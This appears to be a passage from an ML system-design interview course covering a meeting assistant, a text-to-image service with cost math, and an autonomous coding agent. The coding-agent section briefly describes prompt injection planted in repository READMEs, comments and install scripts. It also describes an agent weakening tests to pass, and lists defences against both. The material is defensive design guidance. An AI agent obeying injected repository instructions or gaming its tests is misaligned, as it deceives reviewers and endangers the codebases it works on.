
*Figure — Apply meeting access policy to retrieval, delivery, and generated answers (course diagram)*

### Evaluation and the loop (minutes 30–38)
- Summary edits and action-item reassignments are behavioural feedback; where consent and tenant policy allow, curated original→edited pairs can adapt a small summariser (eval data separate; tenant content never pooled without authorisation).
- Q&A feedback grows the golden set; WER and speaker attribution tracked per language and accent group.

### Scaling and cost
Price speech-to-text, storage, generation and retrieval separately; **speech-to-text is often the largest line**. Levers: a cheaper or self-run recogniser for the biggest languages, skipping silence, re-transcribing the archive later with a slower, more accurate model.

### Safety and privacy
- ACLs bound search, delivery *and* synthesis — and the answer says so: "committed in meetings **you have access to**".
- **Deletion = tombstone and propagate**: a **tombstone** is a "deleted" marker every reader checks — mark the meeting dead everywhere reads check, then purge every downstream copy: transcripts, indexes, caches, summaries, action items (derived data is the classic miss). A **legal hold** (order to keep possible evidence) means preserve, not delete.
- Re-check recipients at delivery time; prefer access-controlled links — an emailed copy can't be revoked.

### Failure modes
| Failure | Response |
|---|---|
| ASR struggles with accents or crosstalk (people talking over each other) | Confidence-scored transcripts; low-confidence spans marked in summaries, not guessed |
| Pipeline backlog | Status and a revised ETA; queue-depth alarms |
| Deletion request / 90-day retention | Tombstone-and-propagate as a monitored pipeline with its own SLO; holds pinned per meeting |
| Permission change after delivery | Access-controlled links; delivery-time checks |

### Follow-ups (Q→A)
- **Q: "The CEO wants every promise engineering made to marketing this quarter."** A: Aggregation RAG across meetings under the asker's ACLs, with per-claim meeting citations and a UI caveat: "in meetings you can access". The privacy model shapes *truthfulness* — the decisive promise may sit in a meeting the CEO never joined.
- **Q: "A call includes two customer companies. Who owns it?"** A: Define ownership, consent, sharing and retention first; then each tenant gets its own authorised copy (copy semantics).
- **Q: "Why not one agent for the post-call flow?"** A: Steps are enumerable, so a workflow is cheaper, faster and testable; an agent may fit later in the archive assistant, where the path depends on what's found.
- **Q: "Live translation is now required."** A: A new streaming model in the real-time lane; the async pipeline is untouched — because the regimes were separated from day one.
- **Q: "Users can't find decisions."** A: Decisions are statements, not topics: extract decisions and commitments as records at ingest, index them, cite their transcript moments.

### What separates levels, and variations
Mid-level wires transcription → summary → search linearly with permissions as a checkbox; senior opens with the three regimes, justifies the queue with the comb and applies ACLs to search *and* delivery; staff shows privacy shaping truthfulness (the CEO caveat) and names ASR as the real bill. **Variations:** *real-time sales coaching* (the live lane is the whole product; the true label — deal outcome — arrives months later) and a *lecture assistant* (the archive is the product; consent may involve minors).

### Toy: the post-call pipeline (`code/meeting_pipeline.py`)
The map step keeps per-segment sentences with decision/commitment words ("agreed", "commits", "decided", "needs"), tagging low-confidence audio; `can_read(user, meeting)` (not deleted, and user is an attendee or explicit viewer) runs *before* retrieval scoring. Output (excerpt):
```
1) WER
    WER=0.00  <- 'engineering commits to shipping the beta by friday'
    WER=0.25  <- 'engineering commit to shipping beta by friday'
    WER=0.62  <- 'uh engineering um commits to uh shipping the the beta by friday okay'
    WER can exceed 1: 4.00

2) Post-call workflow for Launch sync
  - We agreed premium stays at twelve dollars for launch. [low-confidence audio - verify] (05:40)
    ACTION owner=tom, task='update the pricing page', due=Wednesday
           source m1@06:15: "Tom will update the pricing page by Wednesday."
    ACTION owner=UNCONFIRMED (sam not an attendee), task='draft the press release', due=Monday
           source m1@07:02: "Sam will draft the press release by Monday."

3) Archive Q&A with access control
[tom] what did engineering commit to marketing
    - Engineering commits to shipping the beta to marketing by Friday.  <Launch sync, m1@01:05>
    (answer covers only meetings you can access)
[priya] what did engineering commit to marketing
    - Engineering commits to shipping the beta to marketing by Friday.  <Launch sync, m1@01:05>
    - Engineering commits to a security audit before the deal closes.  <Legal review, m2@03:10>
    (answer covers only meetings you can access)

4) Delete meeting m1 (approved, no legal hold)
    purge transcript    removed
    ... (vector index, summary cache, action items removed; email digests: nothing to remove)
[priya] what did engineering commit to marketing
    - Engineering commits to a security audit before the deal closes.  <Legal review, m2@03:10>

5) Comb-shaped load (5,000 meetings/hour in one region)
    average need: 5,000 x 1.5 min / 60 min = 125 busy workers
    arrivals in minutes 0-2 after the hour: 3599 of 5000; busiest minute: 1238
    150 workers x 1.5 min/job: p50 wait 14.2 min, max wait 33.0 min, all done within 10-min SLO: False
    700 workers x 1.5 min/job: p50 wait 1.5 min, max wait 5.5 min, all done within 10-min SLO: True
```
Filler words raise WER (insertions count), and a one-word reference transcribed as five words scores 400%. The low-confidence pricing decision is flagged, not stated as fact; "Sam" isn't an attendee, so the owner stays unconfirmed. Tom and Priya get different answers to the same question, each bounded by access (the CEO caveat). Deletion purges every derived store. Sizing workers for the *average* (125) breaks the 10-minute promise at the top of the hour; keeping it needs ~5.6× (700) — or a looser promise, or capacity pre-warmed for the comb.

### TL;DR
One data path, three speeds: streaming speech-to-text, a queued recap *workflow*, RAG over the archive. ACLs from meeting policy bound retrieval, delivery and synthesis; every item links to its transcript moment; deletion propagates to derived data; ASR is the bill to watch.

---

## 14.4 Case: text-to-image product at scale

> **The question (paraphrased).** A consumer app turns a text prompt into a grid of four pictures, with free and paying users. Volume is ~2M images per day and rising. Design it — the interviewer adds that spend is their main worry.

### Requirements (minutes 0–8)
**Recognition.** "Generation takes seconds and clients disconnect, so this is an asynchronous job pipeline — and since the bill is the worry, I'll estimate GPU capacity and cost *first*."

**Success — three numbers, said together.** (1) **Images kept per session** — selections and upscales, not generations; (2) **wait time by tier** — the queue's promise; (3) **safety incident rate** — a generated image can be shared instantly.

**Latency, in one careful sentence.** Of the several clocks (acceptance, queue wait, generation, completion) you commit to a *wait-time distribution per tier* — paid users within seconds at **p90** (the time 90% of jobs beat), free users about a minute — and display it. **Scope:** new images and variations; editing, **inpainting** (repainting part of an image) and video are out (their costs behave differently).

### Approach: data and model (minutes 8–18)
- **Input is one line of text** — too little for a good image. An optional **prompt enhancer** adds detail while preserving intent; moderate the enhanced text too.
- **Output is a rich job record**: prompt, enhanced prompt, model version, **seed** (sets the random starting noise), settings, software versions, both safety-gate scores. (A seed alone doesn't guarantee identical reproduction.)
- **The four-image grid is a preference signal** — which image is picked, upscaled or regenerated. Noisy (position matters), but with permission it drives the loop.
- **Model, at name level.** A text encoder guides a **diffusion model** that cleans noise over N **denoising steps**, so cost ≈ steps × resolution ([§10.5](../10-generative-models-beyond-text/README.md)).
- **A portfolio, not a model**: a flagship (paid quality), a fast low-step model (previews, free tier), an **upscaler** (enlarges an image adding detail; only on picked images) and the enhancer. Model and settings are chosen **when the job is queued**, by plan — steps and resolution belong to the job, the basis of pricing.

### Architecture (minutes 18–30)
**Do the math before defending any box** (rates illustrative):


*Figure — Illustrative capacity math: distinguish busy GPU equivalents from provisioned fleet cost (course diagram)*

| Step | Arithmetic |
|---|---|
| Rate | 2,000,000 ÷ 86,400 s ≈ **23.1 images/s** (average; peaks are higher) |
| Busy GPUs | 23.1 × 10 GPU-s ≈ **231 GPUs busy at every moment** on average |
| Fully utilised cost | 231 × $4/h × 24 ≈ **$22,200/day** |
| Realistic fleet | 500 GPUs provisioned for peaks, 24h: **$24K–$48K/day** at $2–$4 per GPU-hour |

Every box must now justify itself against that figure.



- **The queues are the business model.** Paid users jump onto reserved GPUs; free users absorb backlog by waiting; a **batch** option sells night-time idle capacity at a discount. The same queues define **what each plan buys**, tell the **autoscaler** (adds/removes machines with load) when to grow, and drive the **wait estimate** users see.


*Figure — One queue doing three jobs at once (course diagram)*

- **The scheduler is where utilisation happens.** Loading a model takes tens of seconds, so long-lived workers keep weights on the GPU and the scheduler batches jobs with the same model and resolution. Scale on **queue-depth trends** plus measured start-up time, with a **warm pool** (machines kept ready) — cold GPUs arrive minutes late.
- **Utilisation is the business metric**: an idle GPU-second costs exactly what a busy one does.
- **Two safety gates, in order**: the prompt gate *before* generation (no GPU spent on blocked jobs); the image gate on the finished image *before* any user or **CDN** (content delivery network caching files near users) access. Both **fail closed**.
- **Progress events keep the wait honest** (queued → generating → done over **WebSocket** — always-open two-way connection — or **polling**).
- **Dead-letter queue (DLQ)**: a job that crashes a worker retries on a fresh one under the same **idempotency key** (a unique request ID making repeats harmless — [System Design Fundamentals](../../../system-design-patterns/modules/00-system-design-fundamentals/README.md)), so it is published and billed once; a second crash parks it and **pages** an on-duty engineer. One bad prompt never consumes the fleet.

### Evaluation and the loop (minutes 30–38)
- Per model version, track how often images are **chosen, upscaled or re-rolled** (tunes the enhancer, settles **A/B tests**); **human raters** calibrate what "looks good" means ([§10.9](../10-generative-models-beyond-text/README.md)).
- Every gate miss and **red-team** find joins both gates' eval sets; thresholds are scored on missed violations *and* wrongful blocks.
- Business dashboard: queue depth per tier, utilisation, **promised vs actual wait**.

### Scaling and cost
Choose cost controls by the user promise:


*Figure — Cost controls have different latency, quality, and capacity trade-offs (course diagram)*

| Lever | Saves | Costs |
|---|---|---|
| Batching | GPU time per image | Memory, possible added wait |
| Warm pool sized to trends | Spike latency | Idle GPUs bought on purpose |
| Quality settings (fewer steps, lower resolution) | GPU-seconds per image | Quality — only under a stated policy, never silently for paid users |
| Longer free-tier waits / admission caps | Peak capacity | User experience |
| Off-peak batch tier | Turns idle capacity into revenue | No wait promise |

Other lines: storage, networking, moderation, operations.

### Safety
Prompt gate (classifiers, adversarial-phrasing detection), image gate (NSFW — sexual or graphic content — violence, real-person likeness, minors), **provenance** (watermarks and C2PA content credentials — establish origin, not safety, and can be stripped). Copyright and likeness rules vary by jurisdiction: legal review ([§12.10](../12-safety-ethics-governance/README.md)).

### Failure modes
| Failure | Response |
|---|---|
| Worker dies | Job retried by idempotency key — not a lost image |
| Poison prompt | Second crash → dead-letter queue, user credited, engineer paged |
| Moderation outage | That lane stops; never fail open |
| Demand spike | Pre-stated quality settings, longer free waits, caps — decided in advance |

### Follow-ups (Q→A)
- **Q: "Free users make 80% of images and pay nothing. Cut the cost."** A: Math first: 1.6M free images/day × 10 GPU-s ≈ 185 busy GPUs. Halving free-tier steps (if GPU time really halves) saves ~93 GPUs ≈ **$8,900/day** at $4/h — validate the quality hit. Then shift free work to quiet night hours, then a daily free quota — each priced.
- **Q: "A new model is twice as good but needs 3× the GPU time."** A: Not fleet-wide: 231 → **694** busy GPUs ≈ **$66,700/day** before headroom. Launch it as a paid tier; test "twice as good" with pick/upscale rates on matched prompts plus human panels.
- **Q: "Celebrity likenesses appear though prompts name no one."** A: A text filter can't block a name nobody typed — the image gate's job: better likeness detection, red-team patterns, **hashes** (compact fingerprints) of known outputs, an explicit policy decision.
- **Q: "How do you set the free-tier wait promise?"** A: Take peak demand, serve paid first, compute the p90 wait the leftover capacity can honour, promise it with margin. A kept 90 s beats a broken 30 s.
- **Q: "Storage is creeping toward the GPU bill."** A: 2M images/day = 500,000 requests × 4, and most grid images are never picked: keep chosen images **hot** (fast, pricier storage), move them **cold** after ~30 days, delete unpicked ones after a retention window.

### What separates levels, and variations
Mid-level draws the correct pipeline and gives cost as one total at the end; senior states and checks 23.1/s and 231 busy GPUs, sizes peaks separately and states wait promises per tier; staff treats the fleet bill as the product's margin — tiers, quality settings, batch capacity and caps are one system for selling a fleet three ways — and sequences reserved-capacity contracts until demand is steady. **Variations:** *AI music generation* (same jobs and gates; singer-voice imitation is the likeness risk) and *erase-and-refill photo editing* (interactive: a few-second promise, small masked jobs, the uploaded photo scanned too).

### Toy: capacity math and a fleet simulation (`code/t2i_fleet_sim.py`)
Three simulated hours in 1-second steps: **Poisson** arrivals (random, steady average rate) averaging 23 images/s with a 30-minute ×2.2 spike, 20% paid jobs served first, 10 GPU-s per image, an autoscaler that sees only the *previous* minute (wanting arrivals × GPU-s ÷ 0.8 + backlog drain + warm pool) and whose GPUs take 3 minutes to boot, plus a poison job.

```
1) Envelope math (illustrative)
   2,000,000 images/day = 23.1/s x 10 GPU-s = 231 busy GPUs on average
   fully utilised: 231 x $4.0/h x 24 = $22,222/day; a 500-GPU fleet 24h = $24,000-$48,000/day at $2-$4/h
   free tier (80%): 185 busy GPUs; halving its steps saves ~93 GPUs = $8,889/day (if GPU time really halves)
   a model with 3x GPU-seconds fleet-wide: 694 busy GPUs = $66,667/day before headroom
   storage: 2M images = 500,000 requests x 4; most grid images are never picked

2) Three simulated hours (spike x2.2 in hour 2), paid = 20% of jobs, 3-min GPU warm-up
   warm pool  0: paid p99/max wait    0/  1s | free p99/max  111/132s | util 80% | GPU $4,128 | published 297,788 | dead-letter ['job500']
   warm pool 60: paid p99/max wait    0/  1s | free p99/max   78/ 96s | util 69% | GPU $4,820 | published 297,788 | dead-letter ['job500']
   plot: img/t2i_queue.png
```


Paid users never notice the spike — the free queue absorbs it. A 60-GPU warm pool cuts the worst free wait from 132 s to 96 s but lowers utilisation 80% → 69% and adds ~17% to the GPU bill ($4,820 vs $4,128): *buying idle on purpose* is a priced product decision. The poison job is dead-lettered after two crashes.

### TL;DR
Async jobs because generation is slow; envelope math first (23.1/s → 231 busy GPUs → $22K–$48K/day); priority queues are pricing, autoscaling signal and UX at once; utilisation is the business; quality is a per-job setting; both safety gates fail closed.

---

## 14.5 Case: autonomous coding agent

> **The question (paraphrased).** Engineering teams hand an AI agent a ticket; it implements the change, runs the test suite and raises a pull request — like a tireless junior developer. 10,000 customer teams will use it.

### Requirements (minutes 0–8)
**Recognition.** "An agent loop with hard limits ([Chapter 9](../09-ai-agents/README.md)) whose tools edit and test code. Running the code gives strong but partial evidence; an isolated environment limits what actions can affect; the PR is a review gate. No single control removes every risk — they complement each other."


*Figure — Automated checks, isolation, and independent review provide complementary controls (course diagram)*

**Success.**
- *Primary:* **PR merge rate** — merged without major rework, per task class; plus **time to merge** vs humans on similar tickets.
- **Reviewer burden** — review minutes per agent PR; plausible-but-wrong code costs senior engineers' time.
- **All-in cost per merged PR** — failed runs, compute and review included (measure; don't assume "a few dollars").
- *Guardrails:* **CI** (the automatic build-and-test run on every change) break rate and the **share reverted after merging** — a delayed label, like **chargebacks** (card payments reversed weeks later) in fraud.

**Scope.** Clearly written tickets — bugs, small features, tests, **refactors** (restructuring without changing behaviour); no architecture changes. **The agent proposes; humans merge** — a deliberately low rung of the autonomy ladder ([§9.10](../09-ai-agents/README.md)). Auto-merge is a distant, evidence-gated step (perhaps **dependency bumps** — library version upgrades — with passing tests).

### Approach: the environment is the architecture (minutes 8–18)
- **One isolated, disposable environment per task** (repo checkout, **dependencies**, test runner). Harden **containers** or use stronger isolation (Firecracker **micro-VMs**, gVisor) per the **threat model** (who might attack, how, wanting what).
- **No production credentials, no deploy access, allowlisted network egress** (outbound traffic), ideally via internal **package mirrors** — even an approved package source can deliver malware. **Least privilege as infrastructure**, not as instructions to the model.
- **A few job-shaped tools**: search and read code, edit files, run tests and **linters** (flag style problems and likely bugs), a sandbox-confined **shell**, request a PR. Deliberately absent: database tools, cloud consoles.
- **PR creation lives in a separate service** with narrowly scoped credentials; the sandbox never holds merge, deploy or broad repo tokens.


*Figure — What is inside the sandbox, and what is deliberately not (course diagram)*

**Context** ([§9.6](../09-ai-agents/README.md)): ticket and acceptance criteria, a per-repo index, a **plan file** the agent revises, and **durable task state** so an hour of work survives a **pod eviction** (the container killed and rescheduled).

### Architecture: the loop and its verifiers (minutes 18–30)



- **The test suite is the inner checkpoint**: change → run → correct until green; legible error messages let the model self-correct.
- **CI is the outer checkpoint** with exactly the rules human PRs face — **never a softer CI path for the agent**.
- **A person approves**, and **reviewer comments go back to the agent** — the PR thread is the human–agent interface.
- **Limits**: caps on steps, spend and wall-clock time per ticket type; hitting one yields **something useful** — a draft PR or progress note — never silence.
- **Which model where**: the strongest model plans and codes; cheap models do rote work (test-output triage, commit messages) — **routing inside the loop** — and **prefix caching** avoids reprocessing unchanged repo context.


*Figure — Three gates: tests inside, CI outside, humans at the end (course diagram)*

### Evaluation (minutes 30–38)
- **An offline test bench** from past real tickets, each with an accepted fix and **held-back tests** the agent can't see (SWE-bench is built the same way from real GitHub issues).
- **Trajectory metrics** (steps, test iterations, budget burn, tests modified) next to outcome metrics ([§9.9](../09-ai-agents/README.md)).
- **In production**: merges, reverts and review effort per ticket type — the evidence the autonomy ladder needs.

### Scaling and cost
- Sandboxes are independent, so scaling out is counting containers — the text-to-image fleet's queue/priority/utilisation shape.
- Real limits are per repo: **merge conflicts** (two branches changed the same lines) between concurrent agent branches and, above all, **reviewer throughput** — the honest bottleneck.
- Estimate per task (model calls + sandbox time + tests + review); divide total spend by *merged* PRs.

### Safety
- **Prompt injection lives in the repo**: a README or comment can carry instructions, and a dependency's install script can run code. Egress allowlist and missing credentials bound the damage — *a fooled model inside a bounded system* ([§12.4](../12-safety-ethics-governance/README.md)).
- **Supply-chain** screening (third-party libraries checked for tampering or malware) on added dependencies, secret scanning on every diff, an audit trace per task.

### Failure modes
| Failure | Response |
|---|---|
| Agent weakens tests to pass | Flag any test modification for elevated review; final acceptance uses tests the agent can't change |
| Budget exhausted | Draft PR / findings comment with the plan and last results |
| Pod evicted mid-task | Resume from durable task state |
| Malicious dependency | Registry allowlist, **lockfile**-only updates (a lockfile pins exact library versions), supply-chain scan as a CI gate; egress limits and no credentials bound a compromised install script |

### Follow-ups (Q→A)
- **Q: "PRs pass CI but solve the wrong problem."** A: Compare ticket, plan, diff and review comments — vague criteria, misreading or weak tests. Remedies: the agent **asks questions first** on vague tickets (cheap, often the biggest win) and humans **review the plan** before code exists.
- **Q: "Why would teams trust it?"** A: Trust is **instrumented**: start draft-PR-only, trace every action, publish merge rate, revert rate and reviewer burden per ticket class, widen autonomy per class as numbers earn it.
- **Q: "Monorepo with 30-minute CI."** (One huge repository holding many projects.) A: Tiered verification: fast tests chosen by **test-impact analysis** (which tests exercise the changed code) inside the loop; the full suite at PR time.
